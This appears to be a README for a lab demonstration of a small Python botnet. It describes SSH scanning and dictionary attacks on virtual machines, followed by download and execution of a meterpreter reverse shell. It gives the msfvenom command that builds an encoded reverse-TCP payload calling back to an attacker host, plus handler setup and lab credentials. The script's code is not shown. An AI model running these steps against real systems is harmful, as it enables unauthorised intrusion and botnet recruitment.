 # fresh_bot:
Demonstration of a simple botnet written in Python.<br>
<br>
"scan_drop.py" file scans virtual network. If it finds a node with ssh<br>
service it then performs a dictionary attack. If successful, script will<br>
attmept to download a meterpreter reverse shell payload and execute it.<br>
Multiprocessing allows for multiple targets to connect to our handler<br>
at once.<br>
<br>
<h3>Environment & Setup</h3>
1. Our Attack machine: <h4>Linux kali 4.16.0-kali2-amd64</h4>
2. Create payload: <h4>msfvenom --payload linux/x86/meterpreter_reverse_tcp LPORT=443 LHOST=192.168.203.1 -e shikata_ga_nai -f elf -a x86 -o evil_file</h4>
3. Create Web Server & host payload: <h4>192.168.203.1/evil_file</h4>
4. Create 4 target VMs. All with ssh servers on the same virtual network: <h4>ubuntu-16.04.5-desktop-amd64</h4>
&nbsp;&nbsp;&nbsp;192.168.203.150&nbsp;&nbsp;user: fresh1 &nbsp;pass: fresh1<br>
&nbsp;&nbsp;&nbsp;192.168.203.151&nbsp;&nbsp;user: fresh2 &nbsp;pass: fresh2<br>
&nbsp;&nbsp;&nbsp;192.168.203.152&nbsp;&nbsp;user: fresh3 &nbsp;pass: fresh3<br>
&nbsp;&nbsp;&nbsp;192.168.203.153&nbsp;&nbsp;user: fresh4 &nbsp;pass: fresh4<br>
<br>
5. msf5 > <h4>exploit/multi/handler module</h4>
6. Run scan_drop.py on target <h4>Scan, Dictionary Attack, RCE. </h4>
